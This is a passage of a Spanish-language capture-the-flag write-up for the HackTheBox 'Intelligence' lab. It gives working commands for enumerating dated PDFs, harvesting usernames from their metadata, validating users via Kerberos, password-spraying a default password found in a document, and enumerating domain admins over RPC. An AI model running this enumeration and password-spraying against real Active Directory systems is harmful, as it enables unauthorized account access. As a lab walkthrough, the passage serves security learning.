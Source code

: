 ```bash
	done; done
```
Este script nos crea todos los nombres posibles con todas las fechas posbiles:  
```console
└─$ ./dates.sh | tee paginas.txt
└─$ for page in $(cat paginas.txt); do curl -s $page -I | head -n 1 | grep -v 404 >/dev/null && echo $page; done
# Con este comando quitamos todas las que de error 404 o sea que no existan.
# siguen saliendo bastantes (84), las meteremos en un nuevo archivo "paginas_validas" con "tee"
# Intente hacer peticiones filtrando por campos como la fecha o el tamaño:
└─$ for page in $(cat paginas_validas.txt); do echo -n $page :  ; curl -s $page -I | awk 'FNR==4'; done
# Pero no encontre ninguno de otra fecha ni quitar tamaños repetidos (son unicos todos)
```
Solo queda tirar de exiftool, para eso se descargan todos los archivos: 
```console
└─$ for page in $(cat paginas_validas.txt); do wget $page; done;
└─$ for i in $(ls); do exiftool $i; done;  # cambia el tamaño y los nombres
└─$ for file in $(ls); do exiftool $file | tail -n1 | awk '{print $3}'; done | tee users.txt
└─$ cat users.txt | sort -u | sponge users.txt;
└─$ kerbrute userenum --dc 10.10.10.248 -d intelligence.htb ./users.txt  # Todos validos
```
Los archivos no se pueden leer directamente por ser pdfs, pero podemos convertidlos a txt: ```for i in $(ls); do pdftotext $i; done```  
Los archivos txt tienen tamaños diferentes cada uno. Uno de los textos (el ultimo), aunque no tenga la contraseña pone algo interesante:  
```
Actualización interna de IT
Recientemente ha habido algunas interrupciones en nuestros servidores web. 
Ted ha creado un script para nitifcarnos por si esto vuelve a pasar.
Además, después de la discusión sobre nuestra reciente auditoría de seguridad, estamos en proceso.
de bloquear nuestras cuentas de servicio.
```
Otro, (2020-06-04) tiene la contraseña ```NewIntelligenceCorpUser9876``` y dice que es la por defecto.  

-----------------------------------
## Part 3: Enumerando los otros servicios
 
Ya tenemos un fichero de usaurios existentes en el sistema. Ya que tenemos el puerto kerberos abierto podemos intentar solicitar un TGT por cada usuario. 
```console
└─$ impacket-GetNPUsers intelligence.htb/ -no-pass -usersfile ./users.txt
```
Dice que todos los usaurios tienen la preauth seteada, por lo que no obtenemos ningun hash NTLM que crackear. 
```console
└─$ crackmapexec smb 10.10.10.248 -u users.txt -p "NewIntelligenceCorpUser9876" --continue-on-success
SMB     10.10.10.248    445    DC  [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```
El otro ataque posible de kerberos es:
```console
└─$ impacket-GetUserSPNs intelligence.htb/Tiffany.Molina:NewIntelligenceCorpUser9876
# Nada
```
Vamos a inspeccionar el rpc:
```console
└─$ rpcclient -U "Tiffany.Molina%NewIntelligenceCorpUser9876" 10.10.10.248  -c 'enumdomgroups'
	group:[Domain Admins] rid:[0x200]
└─$ rpcclient -U "Tiffany.Molina%NewIntelligenceCorpUser9876" 10.10.10.248  -c 'querygroupmem 0x200'
	rid:[0x1f4] attr:[0x7]
└─$ rpcclient -U "Tiffany.Molina%NewIntelligenceCorpUser9876" 10.10.10.248  -c 'queryuser 0x1f4'
	User Name   :	Administrator
```